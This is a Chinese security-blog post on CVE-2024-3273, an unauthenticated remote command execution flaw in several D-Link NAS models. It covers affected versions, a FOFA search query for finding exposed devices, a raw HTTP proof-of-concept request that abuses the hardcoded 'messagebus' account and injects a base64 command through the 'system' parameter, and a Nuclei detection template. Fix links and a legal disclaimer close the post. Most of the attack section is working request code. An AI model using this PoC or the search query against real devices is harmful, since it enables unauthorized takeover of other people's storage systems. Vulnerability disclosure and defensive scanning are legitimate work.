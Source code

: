 #  D-Link NAS 未授权RCE   
可可  巢安实验室   2024-05-19 23:00  
  
0x01 产品介绍  
  
D-Link 网络存储 (NAS)是中国友讯（D-link）公司的一款统一服务路由器。  
  
0x  
0  
2 漏洞威胁  
  
D-Link NAS nas_sharing.cgi接口存在命令执行漏洞，该漏洞存在于“/cgi-bin/nas_sharing.cgi”脚本中，影响其 HTTP GET 请求处理程序组件。漏洞成因是通过硬编码帐户（用户名：“messagebus”和空密码）造成的后门以及通过“system”参数的命令注入问题。未经身份验证的攻击者可利用此漏洞获取服务器权限。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyX3qa0cdFJXVnslmEw5to8vnsO2qmX6wON2kEyvSI9HH65tplah46XaBOa5khTb2COMicNHtwPGDw/640?wx_fmt=png&from=appmsg "")  
  
0x  
0  
3  影响范围：  
```
DNS-320L Version 1.11, Version 1.03.0904.2013, Version 1.01.0702.2013
DNS-325 Version 1.01
DNS-327L Version 1.09, Version 1.00.0409.2013
DNS-340L Version 1.08
```  
## 0x04 漏洞复现  
## fofa语句  
```
"Text:In order to access the ShareCenter, please make sure you are using a recent browser(IE 7+, Firefox 3+, Safari 4+, Chrome 3+, Opera 10+)" 
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyX3qa0cdFJXVnslmEw5to8QW4wjSQkXXPvdUX02P8UiaMZrhxJD4uiah8L0WLuv31BE02JiaULagP6Q/640?wx_fmt=png&from=appmsg "")  
  
**POC**  
```

GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=aWQ= HTTP/1.1
Host: your-ip
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)
Accept-Encoding: identity
Accept: */*
Connection: keep-alive
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyX3qa0cdFJXVnslmEw5to8dbvMVjWibWEuzS8qY3dOGfjsGPezjYp2rqGjEO6hPXqrWUiagJJoSOibg/640?wx_fmt=png&from=appmsg "")  
## Nuclei脚本  
```
id: CVE-2024-3273

info:
  name:D-Link NAS 未授权RCE
  author: kong
  severity: high
  description: 通过硬编码帐户（用户名：“messagebus”和空密码）造成的后门以及通过“system”参数的命令注入问题。未经身份验证的攻击者可利用此漏洞获取服务器权限。
  reference:
    - https://github.com/adhikara13/CVE-2024-3273
  tags: tags

http:
  - raw:
      - |+
        GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=aWQ= HTTP/1.1
        Host: {{Hostname}}
        Cache-Control: max-age=0
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        Connection: close


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - uid
          - gid
      - type: status
        status:
          - 200
```  
## 修复建议  
  
关闭互联网暴露面或接口  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
```
https://buaq.net/go-232770.html
https://github.com/adhikara13/CVE-2024-3273
https://www.trustwave.com/en-us/resources/security-resources/security-advisories
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/n2rSqJSRAVzNPDEiadhLROCQUuMQyouq2OicjCbTSbk6ZLyzR1uHhPhJZLuZTFaM31tS5jvcDB3sfVsb9novFWeQ/640?wx_fmt=jpeg "")  
  
**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**  
  
****  
**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。公众号内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**  
  
****  
**敲敲小黑板：《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**  
  
  
  
